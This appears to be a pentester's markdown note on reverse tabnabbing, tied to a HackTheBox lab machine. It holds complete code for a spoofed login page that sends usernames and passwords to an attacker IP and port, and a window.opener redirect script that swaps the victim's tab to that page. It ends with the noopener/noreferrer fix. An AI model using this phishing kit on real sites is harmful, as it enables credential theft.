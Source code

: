 # Tab napping

## More info:  
https://owasp.org/www-community/attacks/Reverse_Tabnabbing  
https://hackerone.com/reports/179568


## Desc

When you open a link in a new tab ( ```target="_blank"``` ), the page that opens in a new tab can access the initial tab and change it's location using the window.opener property. 

## Tab napping setup. 

You need 2 html forms.

1. A fished login form 
2. A form with redirect code in for the browser. 

## Example (hackthebox machine foothold used to test) (developers htb, hard machine)

1. Spoofed login.html (make sure to update any links so they resolve the content and looks as the original)

```
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="">
    <link rel="icon" href="http://developer.htb/img/favicon.ico">
    <link rel="stylesheet" href="http://developer.htb/static/css/jquery.toasts.css">
    <script src="http://developer.htb/static/js/all.min.js"></script>
    <script src="http://developer.htb/static/js/jquery-3.2.1.min.js"></script>
    <title>Login | Developer.HTB</title>

    <!-- Bootstrap core CSS -->
    <link rel="stylesheet" href="/static/css/bootstrap.min.css">

    <!-- Custom styles for this template -->
    <link href="http://developer.htb/static/css/signin.css" rel="stylesheet">
  </head>

  <body class="text-center">
 
    <form class="form-signin" action="//10.10.14.148:8074" method="get">
        <input type="hidden" name="csrfmiddlewaretoken" value="DNASuXuPkU07d5eNEABgOZsAzDPk3tS3BYJrWmTahQdvAUIYHsStaSpBQvSVTGMs">
      <img class="mb-4" src="http://developer.htb/static/img/logo.png" alt="" width="72" height="72">
      <h1 class="h3 mb-3 font-weight-normal">Welcome back!</h1>
      <label for="uname" class="sr-only">User Name</label>
      <input type="text" id="id_login" name="login" placeholder="Username" class="form-control" required autofocus>
      <label for="password" class="sr-only">Password</label>
      <input type="password" id="id_password" name="password" placeholder="Password" class="form-control" required>

      
      <button id="loginbtn" class="btn btn-lg btn-primary btn-block" type="submit">Sign in</button>
          <a href="http://developer.htb/accounts/password/reset/" class="auth-link">Forgot password?</a>
        <div class="text-center mt-4 font-weight-light"> Don't have an account? <a href="/accounts/signup/" >Click here!</a>      
      <p class="mt-5 mb-3 text-muted">&copy; Developer.HTB 2021</p>
    </form>

<script src="http://developer.htb/static/js/jquery.toast.js"></script> 
<script>


</script>
  </body>
</html>

```

2. Redirect index.html (replace your IP:PORT)

```
<html>
<script>
if (window.opener) window.opener.parent.location.replace('//IP:PORT/login.html');
if (window.parent != window) window.parent.location.replace('//IP:PORT/login.html');
</script>
</html>
```


## Remedy the issue. 

The fix is very simple by adding ```noopenerand noreferrertags``` to the href elements on the page:
```rel='noopener noreferrer'```

```
<a rel='noopener noreferrer' href="http://google.com/" target="_blank">This is a link to a bad webpage.</a>
```
